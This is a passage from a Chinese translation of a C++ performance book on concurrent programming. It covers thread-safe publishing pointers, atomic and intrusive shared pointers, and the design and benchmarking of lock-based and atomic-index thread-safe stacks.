	std::atomic<T*> p_ { nullptr };
};
```

当然，这是一个非常简单的设计。完整的实现应该支持一个自定义删除器，移动构造函数和赋值操作符，也许还有很多特性，类似于`std::unique_ptr`。标准不保证访问存储在`std::unique_ptr`对象中的指针值是原子的，或者使用了必要的内存栅栏，所以`std::unique_ptr`不能用来实现发布协议。

现在，应该清楚线程安全的`unique_ptr`提供了什么。关键函数是`publish()`和`get()`，它们实现了发布协议。注意，`publish()`方法不会删除旧数据，假设生产者线程只调用一次`publish()`，并且只调用一个空指针。可以为此添加一个断言，在调试版本中这样做可能是一个好主意，但也关心性能问题。说到性能，基准测试显示，对发布指针进行单线程解引用的时间与原始指针或`std::unique_ptr`的解引用时间相同。基准测试也并不复杂:

``` {style="styleCXX"}
struct A { … arbitrary object for testing … };
ts_unique_ptr<A> p(new A(…));
void BM_ptr_deref(benchmark::State& state) {
	A x;
	for (auto _ : state) {
		benchmark::DoNotOptimize(x = *p);
	}
	state.SetItemsProcessed(state.iterations());
}
BENCHMARK(BM_ptr_deref)->Threads(1)->UseRealTime();
… repeat for desired number of threads …
BENCHMARK_MAIN();
```

运行这个基准测试可以了解对无锁发布指针的解引用有多快:

\
图6.5 - 发布指针(消费者线程)的性能

结果应该与对原始指针的解引用进行比较，在多线程中也可以这样做:

\
图6.6 - 原始指针的性能，与图6.5进行比较

性能数据非常接近。还可以比较发布的速度，但消费者端更重要。每个对象只发布一次，然后进行多次访问。

了解发布指针不做什么同样重要。首先，在指针的构造中没有线程安全问题。假设生产者和消费者线程共享对构造好的指针，这个指针初始化为空。谁来构造并初始化了指针？在数据结构中，都有一个*根指针*，通过它可以访问整个数据结构，它由构造初始数据结构的线程初始化。还有一些指针，可作为某些数据元素的根，本身包含在另一个数据元素中。现在，想象一个简单的单链表，其中每个元素的"next"指针是下一个元素的根，而头是整个链表的根。生成链表元素的线程必须将"next"指针初始化为空。然后，另一个生产者可以添加一个新元素并发布。注意，这偏离了数据发布后就不可变的规则。但是，这里可以这样做，因为对线程安全`unique_ptr`的更改都是原子的。无论如何，没有线程可以在指针构造的时候进行访问非常关键(这是一个非常常见的限制，大多数构造都不是线程安全的，因为对象在构造之前不存在，所以不能保证)。

指针没有做的事是，没有为多个生产者线程提供同步。如果两个线程试图通过同一个指针发布新数据，结果是未定义的，并且存在数据竞争(一些消费者线程将看到一组数据，而其他线程将看到不同的数据)。如果有多个生产者线程操作特定的数据结构，必须使用一种机制进行同步。

最后，虽然指针实现了线程安全的发布协议，但没有执行安全的"取消发布"和删除数据。它是拥有指针的，因此当删除时，所指向的数据也会删除。但消费者线程可以使用删除之前获得的值。数据所有权和生命周期的问题都必须处理。理想情况下，程序中应该有一个点，在这个点上，知道整个数据结构或不再需要某个子集了。消费者线程都不应该访问这些数据，甚至不应该保留指向它的指针。此时，*根指针*和其指向的内容就可以安全的删除例如。在执行过程中如何安排，就是是另外一件事情了，通常由算法控制。

有时，希望指针能够以线程安全的方式同时管理数据的创建和删除。本例中，我们需要一个线程安全的共享指针。

\
**原子共享指针**

如果不能保证程序中有已知的点可以安全地删除数据，就必须清楚有多少消费者线程持有有效的数据指针。如果想要删除这个数据，必须等到在整个程序中只有一个指针指向它时，再安全地删除数据和指针本身(或至少将其重置为空)。这是进行引用计数共享指针的工作模式，计算有多少指向同一对象的指针，在没有对该指针的引用时，将该指针删除。

讨论线程安全的共享指针时，理解指针需要什么保证非常重要。C++标准共享指针`std::shared_ptr`通常是线程安全的。如果多个线程操作指向同一对象的不同共享指针，那么对引用计数器的操作是线程安全的，即使两个线程导致计数器同时改变。若一个线程正在复制它的共享指针，而另一个线程正在删除它的共享指针，并且在这些操作开始之前引用计数是N，计数器将上升到N+1，然后回到N(或先下降，然后上升，中间值可以是N+1或N-1，但不存在数据竞争，并且行为很明确，包括最终状态。这个保证意味着引用计数器上的操作是原子的。实际上，引用计数器是一个原子整数，实现时使用`fetch_add()`对其进行原子递增或递减。

只要没有多个线程共享同一个共享指针，这个保证就适用。如何获得每个线程自己的共享指针是另外一个问题，因为所有指向同一对象的共享指针必须以第一个指针的方式进行创建，这些指针必须在某个时间点从一个线程传递到另一个线程。假设，复制共享指针的代码受到互斥锁的保护。如果两个线程访问同一个共享指针，那么所有的猜测都是多余的。若一个线程试图复制共享指针，同时另一个线程正在重置它，结果是未定义的。特别是，标准共享指针不能用于发布协议的实现。然而，当共享指针的副本分发到线程(可能处于锁定状态)中，共享的所有权就会得到保护，对象的删除将以线程安全的方式处理。当最后一个指向该对象的共享指针删除时，该对象也会删除。请注意，由于每个特定的共享指针都会由一个线程处理，所以这是完全安全的。如果在程序执行期间，只有一个共享指针拥有对象时，那么也只有一个线程可以访问这个对象。其他线程不能复制这个指针(不让两个线程共享同一个指针对象)，并且没有其他方法可以获得指向同一个对象的指针，所以删除操作将以单线程的方式进行。

这种方式很好，但两个线程会访问同一个共享指针呢？这种访问的例子就是发布协议。消费者线程正在读取指针的值，而生产者线程可能正在修改它，这样就需要共享指针本身的操作是原子的。在C++20中可以这样做，这里允许写`std::atomic<std::shared_ptr<T>>`。注意，早期的建议写一个新类代替`std::atomic_shared_ptr<T>`。不过，这也不是最终的方法。

如果没有兼容C++20的编译器和相应的标准库，或者不能在代码中使用C++20的话，仍可以在`std::shared_ptr`上执行原子操作，但需要显式地做。为了使用在所有线程之间共享的指针`p_`发布对象，生产者线程必须这样做:

``` {style="styleCXX"}
std::shared_ptr<T> p_;
T* data = new T;
… finish initializing the data …
std::atomic_store_explicit(
	&p_, std::shared_ptr<T>(data), std::memory_order_release);
```

另一方面，为了获得指针，消费者线程必须这样做:

``` {style="styleCXX"}
std::shared_ptr<T> p_;
const T* data = std::atomic_load_explicit(
	&p_, std::memory_order_acquire).get();
```

与C++20原子共享指针相比，这种方法的主要缺点是无法避免非原子访问。开发者应该记住始终使用原子函数来操作共享指针。

虽然方便，但`std::shared_ptr`并不是一个特别有效的指针，并且原子访问使它变得很慢。可以比较上一节中使用线程安全的发布指针和使用显式原子访问共享指针发布对象的速度:

\
图6.7 - 原子共享发布指针的性能(消费者线程)

同样，应该将这些数字与图6.5中的数字进行比较。发布指针在一个线程上要快60倍，而且这种优势会随着线程的数量变多而增加。当然，共享指针的意义在于提供了共享资源的所有权。因此，共享指针需要更多的时间来完成更多的工作。比较的重点是显示这种共享所有权的成本。如果可以避免，程序的效率会更高。

即使需要共享所有权(如果没有共享所有权，有些并发数据结构很难设计)，使用有限的功能和最实现设计自己的引用计数指针，则可以完成得更好，一种常见的方法是使用侵入引用计数。侵入式共享指针将其引用计数存储在指向的对象中。当为特定对象(如特定数据结构中的列表节点)设计时，对象在设计时需要考虑到共享所有权，并包含引用计数器。否则，可以对任何类型使用包装器类，并使用引用计数器进行扩展:

**04_intr_shared_ptr_mbm.C**

``` {style="styleCXX"}
template <typename T> struct Wrapper {
	T object;
	Wrapper(… arguments …) : object(…) {}
	~Wrapper() = default;
	Wrapper (const Wrapper&) = delete;
	Wrapper& operator=(const Wrapper&) = delete;
	std::atomic<size_t> ref_cnt_ = 0;
	void AddRef() {
		ref_cnt_.fetch_add(1, std::memory_order_acq_rel);
	}
	bool DelRef() { return
		ref_cnt_.fetch_sub(1, std::memory_order_acq_rel) == 1;
	}
};
```

当减少引用计数时，要知道何时达到0(或在减少之前是1)，共享指针就会删除对象。

即使是最简单的原子共享指针的实现也相当冗长，本章的示例代码中可以找到一个非常简单的示例。同样，这个示例只包含指针正确执行几个任务所需的最小值，例如：发布对象和多个线程并发地访问同一个指针。这个例子的目的是让我们更容易理解实现这类指针所需的基本元素(即使这样，代码也有几页长)。

除了使用侵入式引用计数器外，特定于应用的共享指针可以放弃`std::shared_ptr`的其他特性，例如：许多应用程序不需要弱指针。一个极简的引用计数指针可以比标准指针高效几倍:

\
图6.8 - 自定义原子共享发布指针(消费者线程)的性能

同样，对于指针的赋值和重赋值、两个指针的原子交换以及指针上的其他原子操作，它的效率更高。这个共享指针比唯一指针的效率低得多，若可以显式地管理数据所有权，则不需要引用计数。

现在，我们了解了数据结构的两个关键构建块，可以添加新数据并发布它(向其他线程显示)，并需要跟踪其所有权，甚至是跨线程(这需要付出巨大代价)。

###  6.5.总结 {#总结-5 .unnumbered}

本章中，我们了解了并发程序的基本构件的性能。对共享数据的所有访问都必须进行保护或同步，但是在实现同步时，有很多选择。虽然互斥锁是最常用和最简单的方法，但我们已经了解了其他几个性能更好的选项:自旋锁及其变体，以及无锁同步。

高效并发程序的关键是使尽可能多的数据位于线程本地，并尽量减少对共享数据的操作。特定于每个问题的需求通常不能完全消除此类操作，因此本章主要讨论如何提高并发数据访问的效率。

我们研究了如何跨多个线程计数或累积，尝试了使用和不使用锁的方法。通过理解数据依赖关系，发现发布协议可以使用线程安全的智能指针实现，并适用于不同的应用程序。

现在，我们已经做好了充分的准备，将本章中几个构建块以更复杂的线程安全数据结构的形式放在一起。下一章中，将了解如何使用这些技术为并发程序设计数据结构。

###  6.6.练习题 {#练习题-5 .unnumbered}

1.  基于锁、无锁和无等待程序的定义是什么？

2.  如果算法是无等待的，这是否意味着可以完美地扩展？

3.  锁的缺点是什么？

4.  共享计数器和数组，或另一个容器中的共享索引的区别是什么？

5.  发布协议的优势是什么？

##  第7章用于并发的数据结构 {#第7章用于并发的数据结构 .unnumbered}

上一章中，详细地探讨了可用于确保并发程序正确性的同步。还研究了这些程序的构建块，线程安全的计数器和指针。

本章中，将继续研究并发程序的数据结构。本章的目标有两个:一方面，将了解如何设计基本数据结构的线程安全版本。另一方面，给出一些一般原则和观察，这些对于设计用于并发的数据结构非常重要，对于评估组织方式和存储数据的最佳方法也非常重要。

本章将讨论以下内容:

-   理解线程安全的数据结构，包括线性容器：堆栈和队列；和基于节点的容器：链表

-   提高并发性、性能和访问顺序的保证

-   设计线程安全数据结构的建议

###  7.1.相关准备 {#相关准备-5 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter07>.

###  7.2.线程安全的数据结构 {#线程安全的数据结构 .unnumbered}

学习线程安全的数据结构之前，必须知道需要哪些数据结构。如果这是一个简单的问题------多个线程可以同时使用的数据结构------那么你还太天真了。开始设计并发程序中使用的新数据结构或算法时，就知道这个问题有多么重要了，以至于怎么强调都不为过。这句话应该让你感到警惕，并停下来思考。实际情况是，线程安全的数据结构没有一个明确定义适合每种需求和应用程序。

**7.2.1线程安全的最佳方式**

可以从一些简单的，但在实践中容易遗忘的方式开始。高性能设计的一个原则是，*不做总是比做要快*。当前，这个原则可以缩小为，对于数据结构是否需要线程安全？确保线程安全，意味着需要由计算机完成一些工作，我们真的需要吗？是否可以对计算进行调度，使每个线程都有自己的数据集进行操作？

在前一章中使用的线程安全计数器。如果所有线程始终看到计数器的当前值，这就是正确的解决方案。但当所需要的只是计算在多个线程上发生的事件，例如：分配给多个线程的一组大数据中搜索某些内容。线程在执行搜索时不需要知道计数的当前值。当然，需要知道计数的最新值来增加它，这是正确的，只有在所有线程上增加单个共享计数时才会出问题，就像这样:

\
**01a_shared_count.C**

``` {style="styleCXX"}
std::atomic<unsigned long> count;
…
for ( … counting loop … ) { // On each thread
	… search …
	if (… found …)
	count.fetch_add(1, std::memory_order_relaxed));
}
```

计数的性能非常差，可以看到在基准测试中只做计数(不搜索):

\
图7.1 - 如果计数是共享的，对多个线程的计数不会修改

计数的改变实际上是负的，在两个线程上获得相同的计数要比在一个线程上花费更长的时间(尽管已经尽最大努力使用无等待的计数，同时使用最快的内存序)。当然，如果搜索比计数要长，那么计数的性能就无关紧要了(但搜索代码本身也可以在全局数据上做一些事，或者在每个线程的副本上做一些事，所以这是一个有指导意义的例子)。

假设只关心计算结束时的计数值，一个更好的解决方案是，在每个线程上保持本地计数，并且只增加共享计数一次:

\
**01b_per_thread_count.C**

``` {style="styleCXX"}
unsigned long count;
std::mutex M; // Guards count
…
// On each thread
unsigned long local_count = 0;
for ( … counting loop … ) {
	… search …
	if (… found …) ++local_count;
}
std::lock_guard<std::mutex> L(M);
count += local_count;
```

为了强调共享计数增量的不重要性，将使用互斥锁对其进行保护。通常，锁是更安全的选择，因为它更容易理解(因此，更难制造Bug)，尽管在计数的情况下，原子整数会让代码更简单。

如果每个线程在到达结束之前多次增加本地计数，并且必须对共享计数进行增加的操作，那么这种变化几乎完美:

\
图7.2 - 在多个线程上完美地计数

最好的线程安全是，不需要多个线程访问共享数据。通常，这种安排会以一些开销为代价，例如：每个线程维护一个容器或内存分配器，其大小会不断地改变。在程序结束之前不将内存释放给主分配程序，就可以避免锁定。代价是一个线程上未使用的内存不能提供给其他线程使用，因此总的内存使用将是所有线程峰值的总和(即使这些峰值使用时刻发生在不同的时间)。这是否可以接受取决于问题的细节和实现，这是每个开发者都必须考虑的问题。

当涉及到线程安全时，这个方案选择了逃避。从某种角度来看，确实如此，但在实际中经常出现这样的情况。在不需要共享数据结构的地方使用共享数据结构，并且性能提高非常明显，因此需要强调这一点。现在是时候来看看真正的线程安全了，其中数据结构必须在线程之间共享。

**7.2.2真正的线程安全**

假设确实需要同时从多个线程访问特定的数据结构，现在就必须讨论线程安全了。但现在还是没足够的信息来确定线程安全意味着什么。前一章中讨论了强线程和弱线程安全保证。本章中，这样的分区已经不够了，所以这里不讨论一般的线程安全，而是应该描述数据结构提供并发访问的保证。

弱(但通常很容易提供)保证只要数据结构保持不变，多个线程就可以对相同的数据结构进行读取操作。显然，任意数量线程可以随时执行任何操作，并且数据结构保持在良好定义的状态，这种保证通常既昂贵又不必要。程序可能需要数据结构支持的某些(但不是所有)操作提供这样的保证。还有其他的简化版本，比如：限制访问数据结构的线程数量。

想要提供尽可能少的保证来保证程序是正确的，线程安全特性通常非常昂贵，甚至不使用时也会产生开销。

考虑到这一点，就可以开始研究具体的数据结构了，并看看如何提供不同级别的线程安全。

###  7.3.线程安全的堆栈 {#线程安全的堆栈 .unnumbered}

从并发性的角度来看，**堆栈**是最简单的数据结构之一。堆栈上的所有操作都处理顶部元素，因此(至少在概念上)需要保护一个位置以防止竞争。

C++标准库提供了`std::stack`容器，可以将该容器作为一个起点。所有C++容器，都提供了弱线程安全。多个线程可以安全地访问只读容器，只要没有线程调用非`const`函数，任意数量的线程都可以同时调用任何`const`方法。这听起来很简单，几乎过于简单，但这里有一个问题。在最后一次修改和只读的部分之间，必须存在某种同步，所有线程在内存栅栏之前执行，写访问并没有真正完成。写线程至少需要释放内存，而读线程必须获取内存。任何强栅栏都可以工作，锁也可以，但每个线程都必须迈出这一步。

**7.3.1线程安全接口的设计**

现在，如果多个线程在修改堆栈，则需要更强的保证，那该怎么办？提供互斥锁的最直接的方法，用锁保护类的每个成员函数。这可以在应用程序级别完成，但是这样的实现并不是强线程安全，并且很容易出错。因为锁与容器没有关联，也很难进行调试和分析。

更好的选择是用自己的类包装堆栈类:

\
**02_stack.C**

``` {style="styleCXX"}
template <typename T> class mt_stack {
	std::stack<T> s_;
	std::mutex l_;
	public:
	mt_stack() = default;
	void push(const T& v) {
		std::lock_guard g(l_);
		s_.push(v);
	}
	…
};
```

注意，可以使用继承而不是封装。这样做会使`mt_stack`的构造函数更简单，只需要一个`using`语句。但是，使用公共继承会公开基类`std::stack`的每个成员函数，若忘记包装其中一个，代码将直接调用未保护的成员函数。私有(或受保护的)继承避免了这个问题，但会带来其他风险。有些构造函数需要重新实现，例如：移动构造函数需要锁定正在移动的堆栈，因此需要自定义实现。在没有包装器的情况下，公开其他几个构造函数十分危险，因为它们会读取或修改参数。总的来说，必须重写每个构造函数，这样比较安全。这与C++的建议是一致的，*组合优于继承*(*prefer
composition over inheritance*)。

线程安全或多线程堆栈(就是*mt*的意思)现在有了*push*功能，并准备接收数据。现在，只需要逆操作*pop*。当然可以按照前面的例子包装`pop()`，但这还远远不够。STL堆栈使用三个独立的成员函数从堆栈中删除元素，`pop()`删除了顶部元素，但没有任何返回。所以想知道堆栈顶部是什么，必须先使用`top()`。如果堆栈为空，那么使用这两种方法中的任何一个都会导致未定义行为，所以必须先使用`empty()`检查结果。这里需要包装这三个方法，这里先不展示。下面的代码中，假设堆栈的所有成员函数都由一个锁保护:

``` {style="styleCXX"}
mt_stack<int> s;
… push some data on the stack …
int x = 0;
if (!s.empty()) {
	x = s.top();
	s.pop();
}
```

每个成员函数都是线程安全的，但在多线程上下文中完全没用。堆栈可能在某一刻(碰巧使用`s.empty()`的那一刻)非空，但在下一刻(调用`s.top()`之前)就变成空的了，在此期间另一个线程可以删除顶部的元素。

这可能是整本书最重要的内容了。为了提供可用的线程安全功能，在选择接口时必须考虑线程安全，但不能在现有的设计上添加线程安全的特性。在进行设计时，必须考虑到线程安全。因为可以选择在设计中提供某些保证和不变量，这些在并发程序中不可维护，例如：`std::stack`保证调用`empty()`是安全的，并返回false，这样就可以安全地调用`top()`，只要在这两个调用间不做其他的堆栈操作就好。在多线程程序中，没有特别好的方法来履行这种承诺。

幸运的是，由于正在编写自己的包装器类，所以不需要逐个使用包装类的接口。那么，应该怎么做呢？显然，整个`pop`操作是一个成员函数，应该从堆栈中删除顶部元素，并将其返回给调用者。问题是当堆栈为空时该做什么？有多种选择。可以返回一对值和一个布尔标志，该标志指示堆栈是否为空(这种情况下，该值必须有默认构造)。也可以单独返回布尔值，并通过引用传递该值(如果堆栈为空，则该值保持不变)。在C++17中，解决方案是返回`std::optional`，如以下代码所示。它非常适合持有可能并不存在的值:

\
**02_stack.C**

``` {style="styleCXX"}
template <typename T> class mt_stack {
	std::stack<T> s_;
	std::mutex l_;
	public:
	std::optional<T> pop() {
		std::lock_guard g(l_);
		if (s_.empty()) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(std::move(s_.top()));
			s_.pop();
			return res;
		}
	}
};
```

将元素从堆栈中弹出的整个操作现在都受到锁的保护，这个接口是事务性的。每个成员函数将对象从一个已知状态转到另一个已知状态。

如果对象必须转换到一些中间状态，比如使用`empty()`之后，并在使用`pop()`之前的状态，这些状态必须对使用者不可见。相反，向使用者呈现的是原子事务。要么返回顶部的元素，要么通知调用者不能进行该操作，这确保了程序的正确性。现在，来看看性能。

**7.3.2使用互斥的性能**

堆栈的性能如何？假设每个操作从开始到结束都是锁定的，那就不要对堆栈成员函数的性能有什么期待。最好的情况下线程都将串行地执行堆栈操作，实际中锁应该会带来一些额外的开销。如果要比较多线程堆栈和普通`std::stack`的性能，可以在基准测试中进行对比。

为了简化基准测试，可以选择在`std::stack`上实现单线程的非阻塞包装器，该包装器提供与`mt_stack`相同的接口。注意，不能仅通过`push`堆栈来进行基准测试，这样基准测试可能会将内存耗尽。类似地，无法可靠地对`pop`操作进行基准测试，除非想测量从空堆栈弹出的耗时。如果基准测试运行的时间足够长，就必须将`push`和`pop`结合起来。最简单的基准测试可以是这样的:

\
**02_stack.C**

``` {style="styleCXX"}
mt_stack<int> s;
void BM_stack(benchmark::State& state) {
	const size_t N = state.range(0);
	for (auto _ : state) {
		for (size_t i = 0; i < N; ++i) s.push(i);
		for (size_t i = 0; i < N; ++i)
		benchmark::DoNotOptimize(s.pop());
	}
	state.SetItemsProcessed(state.iterations()*N);
}
```

多线程时，有可能在堆栈为空时进行`pop()`操作。对于处于设计阶段的堆栈来说，这是可能现实的。此外，由于基准测试提供了真实应用程序中数据结构性能的近似值，其中的差异可以忽略。不过，为了获得更精确的测量值，必须模拟应用程序，并执行真实的`push`和`pop`操作序列。结果应该是这样的:

\
图7.3 - 锁栈------使用互斥锁------的性能

注意这里的"item"是"push后面跟着pop"的操作，所以"items per
second"的值显示了每秒钟可以通过堆栈发送多少数据。为了进行比较，没有锁的堆栈在单个线程上的执行速度，要比使用互斥锁快10倍多:

\
图7.4 - `std::stack`的性能(与图7.3相比)

使用互斥对象实现的堆栈性能相当差。但不要急于设计一些聪明的线程安全堆栈，现在还不需要。这时，应该问的第一个问题是，这是怎么回事？应用程序如何处理堆栈上的数据？如果每个数据元素都需要耗时几秒钟模拟一个参数，那么堆栈的速度就不重要了。另外，如果堆栈位于某些实时事务处理系统的核心，那么其速度可能是整个系统性能的关键。

顺便说一下，结果可能与其他数据结构类似，如链表、双端队列、队列和树。其中，单个操作要比对互斥锁的操作快得多。但是，在尝试改进性能之前，必须准确地了解应用程序需要什么样的性能。

**7.3.3不同的性能需求**

本章的其余部分中，假设数据结构的性能在应用程序中很重要。现在，可以来聊聊最快的堆栈实现了吧？还没到那个时候。还需要考虑使用的模型，该如何处理堆栈，以及什么才是需要加速的东西。

互斥锁堆栈性能较差的关键原因是，速度基本上受到互斥锁的限制，对堆栈操作进行基准测试几乎与对互斥锁的锁定和解锁进行基准测试结果相同。提高性能的一种方法是改进互斥锁的实现，或者使用另一种同步方案。另一种方法是少使用互斥锁，这需要重新设计客户端代码。

例如，使用者通常有多个必须压入堆栈的项。类似地，使用者可以一次从堆栈中弹出几个元素并进行处理。这种情况下，可以使用数组或容器来实现批量推送或批量弹出，以便一次从堆栈中复制多个元素。由于锁定的开销很大，可以用锁定/解锁操作在堆栈上一次性推入1024个元素，这样就比用锁逐个推入元素来的快，基准测试也反映了这一点:

\
图7.5 - 批处理堆栈操作的性能(每个锁1024个元素)

我们应该非常清楚这种方式可以做哪些事，不能做哪些事。若临界区内的操作比锁操作本身快得多，就该减少锁的开销，但不能锁定操作的规模。此外，通过延长停留在临界区的时间，迫使线程在锁上等待更长时间。如果所有线程都尝试访问堆栈(这就是基准测试变得更快的原因)，那没问题。但若在应用程序中，线程主要是执行其他计算，只是偶尔访问堆栈，那么较长的等待可能会降低整体性能。为了明确地回答批量`push`和批量`pop`是否对性能有益，必须在更真实的环境中进行分析。

其他一些场景中，寻找更有限的、特定于应用程序的解决方案，可以获得远高于通用解决方案的改进，从而获得的性能收益。单个线程将大量数据提前`push`到堆栈上，然后多个线程将数据从堆栈中删除并处理，可能还会将更多数据`push`到堆栈上。这种情况可以实现解锁的`push`，只在单线程中的`push`中使用。虽然使用者的责任是，永远不要在多线程中使用这个方法，但解锁的堆栈比锁定的堆栈快得多，因此这里的复杂性是值得的。

更复杂的数据结构提供了各种各样的使用模型，但即使是堆栈也可以使用，而不仅仅是简单的`push`和`pop`。也可以查看顶部的元素而不删除，`std::stack`提供了`top()`成员函数，但不是事务性的，所以必须创建自己的函数。其非常类似于事务性的`pop()`函数，只是不移除顶部的元素:

\
**02_stack.C**

``` {style="styleCXX"}
template <typename T> class mt_stack {
	std::stack<T> s_;
	mutable std::mutex l_;
	public:
	std::optional<T> top() const {
		std::lock_guard g(l_);
		if (s_.empty()) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(s_.top());
			return res;
		}
	}
};
```

注意，为了允许只进行查找，这里`top()`声明为`const`，这里必须将互斥量声明为`mutable`。这样做时要小心，多线程程序的约定是遵循STL，只要不调用非`const`成员函数，所有`const`成员函数都可以安全地在多个线程上使用。这意味着`const`函数不会修改只读对象，而可变数据成员违背了这个假设。至少，不应该表示对象的逻辑状态。然后，在修改时应该避免竞争条件。互斥锁必须满足这两个要求。

现在可以考虑不同的使用模式。某些应用程序中，数据`push`入堆栈，再从中`pop`出。其他情况下，堆顶元素可能需要在每次`push`和`pop`之间检查多次。先关注后一种情况，而后再次检查`top()`。这里有一个明显的低效行为，由于锁的存在，只有一个线程可以读取栈顶元素。但是读取栈顶元素是一个非修改(只读)操作。如果所有线程都这样做，并且没有线程同时尝试修改堆栈，那么就不需要锁。但现在，它的性能与`pop()`一样。

不能在`top()`中省略锁，原因是不能确定另一个线程在同一时间没有使用`push()`或`pop()`。但即使这样，也不需要对`top()`进行两次锁定，它们可以同时进行，只有修改堆栈的操作需要锁定。有一种类型的锁提供这样的功能，称为**读写锁**。任何数量的线程都可以获得读锁，并且这些线程之间不会互相影响。但是，写锁只能由一个线程获得，而且只有在没有其他线程持有读锁的情况下才能获取。在C++中，术语不同(但功能完全相同)，读线程使用共享锁(同一个互斥对象上的共享锁可以同时存在)，但写线程需要唯一锁(给定的互斥对象上只能存在一个这样的锁)。如果另一个线程已经持有唯一锁，那么获取共享锁的尝试将会阻塞。同样，若另一个线程持有同一个互斥对象上的锁，那么获取唯一锁的尝试将会阻塞。有了共享互斥锁，就可以用需要的那种锁来实现堆栈。`top()`使用了共享锁后，任意数量的线程都可以同时执行，但`push()`和`pop()`需要唯一锁:

``` {style="styleCXX"}
template <typename T> class rw_stack {
	std::stack<T> s_;
	mutable std::shared_mutex l_;
	public:
	void push(const T& v) {
		std::unique_lock g(l_);
		s_.push(v);
	}
	std::optional<T> pop() {
		std::unique_lock g(l_);
		if (s_.empty()) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(std::move(s_.top()));
			s_.pop();
			return res;
		}
	}
	std::optional<T> top() const {
		std::shared_lock g(l_);
		if (s_.empty()) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(s_.top());
			return res;
		}
	}
};
```

但基准测试显示，使用`top()`的性能即使在读写锁下也不会改变:

\
图7.6 - 使用`std::shared_mutex`栈的性能------只读操作

与普通互斥锁相比，唯一锁的性能下降得更厉害:

\
图7.7 - 使用`std::shared_mutex`栈的性能------写入操作

将图7.6和7.7与图7.4中的测试值进行比较，可以看到读写锁并没有任何改进。这个结论并不普遍，因为不同互斥量的性能取决于实现和硬件。然而，更复杂的锁，比如共享互斥锁，会比简单锁有更多的开销。它们的目标程序不同的，若临界区内的操作花费的时间非常久多(比如，毫秒而不是微秒)，并且大多数线程执行只读代码，那么就没必要锁定只读线程将。

观察更长的临界段是非常重要的。如果堆栈元素较大，并且复制的代价非常高，那么与复制大对象的代价相比，锁的性能就不重要了。假设总体目标是使程序快速，而不是展示可扩展的堆栈实现，这里将通过消除昂贵的复制，并使用指针堆栈来优化整个应用程序。

尽管读写锁遇到了挫折，但我们正确的走在实现更高效应用的路上。在进行设计之前，我们必须更详细地了解每个堆栈操作的作用，以及在每个步骤中必须避免可能出现的数据竞争。

**7.3.4堆栈性能详情**

在尝试提高线程安全堆栈(或其他数据结构)的性能(不是简单的锁保护实现)时，必须详细了解每个操作所涉及的步骤，以及如何与在不同线程上与其他操作交互。本节的目标不是更快的堆栈，而是进行分析。因为底层步骤在许多数据结构中都有，这里我们从`push`操作开始。大多数堆栈实现都是建立在类似数组的容器上，所以可以把堆栈的顶部看作是一个连续的内存块:

\
图7.8 - 栈顶的`push`操作

堆栈上有N个元素，所以元素计数也是下一个元素的槽索引。`push`操作必须将`top`索引(也是元素计数)从N增加到N+1，以保留槽位，然后在槽位N中构造新元素。注意，这个`top`索引是执行`push`操作的线程。只要索引增量操作是线程安全的，那么只有一个线程可以看到索引的值。执行`push`操作的第一个线程将顶部索引提升到N+1，并保留第N个槽位，下一个线程将索引增加到N+2，并保留第N+1个槽位，以此类推。这里的关键是插槽不存在竞争，因为只有一个线程可以获得特定的插槽，因此可以在那里构造对象，而不会有其他线程进行干扰。

这就为`push`操作提供了非常简单的同步方案，所需要的只是栈顶索引是原子值:

``` {style="styleCXX"}
std::atomic<size_t> top_;
```

`push`操作会自动增加这个索引，然后在数组槽中构造新元素(按索引的旧值索引):

``` {style="styleCXX"}
const size_t top = top_.fetch_add(1);
new (&data[top]) Element(… constructor arguments … );
```

同样，不需要保护构造步骤。要让`push`操作线程安全，只需要原子索引即可。如果使用数组作为堆栈内存，也没问题。若使用`std::deque`这样的容器，就不能简单地在内存上构造一个新元素了，这里需要使用`push_back`来更新容器，而且这个操作不是线程安全的，即`deque`可能不需要分配更多的内存。由于这个原因，不在锁管理下数据结构通常需要自己管理内存。说到内存，到目前为止，我们假设数组有足够的空间添加更多的元素，并且不会耗尽内存。这里继续坚持这个假设。

现在，在特定情况下实现线程安全的`push`操作，是一种非常高效的方式。多个线程会将数据推送到堆栈上，但在所有的`push`操作完成之前不能读取数据。

若有一个堆栈，其中已经有了元素，需要弹出它们(并且没有添加更多的新元素)，也可以使用相同的方法。图7.8也适用于这种场景:一个线程自动减少`top`计数，然后返回`top`元素:

``` {style="styleCXX"}
const size_t top = top_.fetch_sub(1);
return std::move(data[top]);
```

原子自减保证了只有一个线程可以访问顶部元素的数组槽。当然，这只在堆栈不是空的情况下才有效。可以将顶部元素的索引从无符号改为有符号整数，当索引为负时，就知道堆栈为空了。

这也是在非常特殊的条件下，实现线程安全`pop`操作的一种有效方式。堆栈已经填充，并且没有添加新元素。本例中，还需要知道堆栈上有多少元素，因此可以避免弹出空堆栈。

一些特定的应用程序中，这可能是有价值的。若堆栈由多个线程填充，没有任何弹出，并且在程序中有明确定义的点，从添加数据切换到删除数据，就存在一个很好的解决方案。不过，现在我们想继续讨论更一般的情况。

但高效的`push`操作对于从栈中读取数据毫无帮助，需要考虑如何实现弹出顶部元素的操作。我们有顶部索引，但它只表明当前有多少元素正在构造。没有提到构造最后一个元素的位置(图7.9中的元素N-3):

\
图7.9 - `push`和`pop`操作栈的顶部

当然，执行`push`和构造操作的线程，知道什么时候完成构造。也许需要的是另一个计数，显示有多少元素完成构造。唉......要是有那么简单就好了。图7.9中，假设线程A正在构造元素N-2，而线程B正在构造元素N-1。显然，线程A是第一个增加顶索引的。但这并不意味着它也是第一个完成`push`操作的，也许线程B可以先完成构造。现在，堆栈上最后一个构造元素的索引是N-1，所以可以将构造计数提升到N-1(注意，跳过了仍在构造中的元素N-2)。现在想要弹出顶部元素。没问题，因为元素N-1已经准备好了，所以可以把它返回给使用者，并从堆栈中移除，构造计数现在减少到N-2。接下来应该弹出哪个元素？元素N-2没有准备好，但堆栈中没有任何警告。只有一个完成元素的计数，它的值是N-1。现在，在堆栈上构造新元素的线程和试图弹出新元素的线程之间，出现了数据竞争。

